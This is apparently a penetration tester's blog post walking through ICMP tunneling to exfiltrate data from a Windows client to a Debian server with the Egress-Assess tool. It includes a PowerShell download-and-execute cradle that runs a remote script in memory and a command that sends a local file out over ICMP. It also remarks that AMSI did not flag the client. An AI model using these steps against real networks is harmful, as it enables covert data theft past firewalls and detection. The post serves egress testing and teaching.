 ```yaml
---
title:  "ICMP Tunneling"
date:   2021-10-10 19:12:00 +0000
categories: [techniques]
tags: [windows, ICMP, Data Extraction]
---
```


I recently had a situation during an engagement where i needed to demonstrate that data could be extracted from the organisation. I wanted to exfil data without going over the internet for security as well as for ease of use duing the engagement and speed.
The VPN when connected, and as expected, didn't allow local access as all routing went through the established tunnel first. However when the tunnel was disconnected the firewall would block all TCP and UDP access but would allow ICMP traffic to local subnets.
This then led me to look into ICMP tunneling. I found various ways of gaining a reverse shell however data exfiltration was more tricky - this is where Egress Assess comes in.   
From the Github Page -> [https://github.com/FortyNorthSecurity/Egress-Assess](https://github.com/FortyNorthSecurity/Egress-Assess)
"Egress-Assess is a tool used to test egress data detection capabilities."

Egress-Assess has many use cases for confirming if data can be extracted out of the network including HTTP, SMB, ICMP and more. It also has PowerShell and Python implementations for both server and client. This is good for us as its unliekly that we normally have PowerShell access on Windows based systems.
Another great feature is that the client doesnt require local administrative privileges to run.
During testing it was also noted that as from the time of testing amsi didnt detect the client software as malicous or blocked the traffic as suspicous.

The setup uses a tradtional client / Server design. The server does require local admin rights. My setup was a Debian 10 Box with a Windows 10 client.

* Server (Debian) - 192.168.1.50
* Client (Win 10) - 192.168.1.239


Again from the Github Page, ICMP - The data is broken up into bytes and base64 encoded and sent over the wire in an ICMP Type 8 ECHO request. the data is placed inside the data field of the packet. The ECHO requests are continuously made to the EgressAsess Server which receives the ICMP request and gathers the data and decodes it.

To start firstly, confirm that you can send and receive ICMP echo requests and Responses bi-directionally.

Once confirmed, on the server, first clone down the repository.

```
git clone https://github.com/FortyNorthSecurity/Egress-Assess.git
```

Next run the setup.sh from within the setup folder to install the necessasary files.
Fix any errors if you get any before continuing.

```
./setup/.setup.sh
```

Next start the server with the ICMP fetaures enabled:

```
python Egress-Assess.py --server icmp --ip 192.168.1.50

```
If the server has started correctly you should see the following:
![img-description](/images/icmp-4.JPG)
_ICMP Server Started & waiting for connections_

Next you can either download the file onto the client, or run it in memory directly.

```
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/FortyNorthSecurity/Egress-Assess/master/EgressAssess.ps1')
```

Next, you have two main options. You either user the built-in audit tools that will create dummy data to mimic sensitive information such as Social Security Numbers / Credit Cards, OR you can specify specfic custom files.

I decided to create my own very simple file to understand how it was being tranferred. I did this by creating a file with some basic text inside on the client.

```
echo "Super Secret Info to Extract" > SuperSecretData.txt
```

We specify the File we want using the "-DataType" argument. ( You could also put "-DataType cc" for CreditCard.

![img-description](/images/icmp-9.JPG)
_Sending a file though an ICMP Packet_


```
Invoke-EgressAssess -client icmp -ip 192.168.1.50 -Datatype 'C:\Videos\SuperSecretData.txt' -Verbose
```

By using the "-Verbose" argument we can see that the connection was sucessful and that the client has indicated that the file was sucessfully sent.

On the server we can see a message confirming that the file has been recieved as expected.

![img-description](/images/icmp-10.JPG)
_File Received on Server_

![img-description](/images/icmp-11.JPG)
_File Received on Server_


To confirm how this worked, we can see in Wireshark that the data is indeed base64 encoded.
![img-description](/images/icmp-12.JPG)
_Wireshark capture of base64 encoded data in an ICMP Packet_
![img-description](/images/icmp-13.JPG)
_Wireshark capture of base64 encoded data in an ICMP Packet_

Therefore if we decode the base 64 we can see our message as expected and confirm how the data was transferred.
![img-description](/images/icmp-14.JPG)


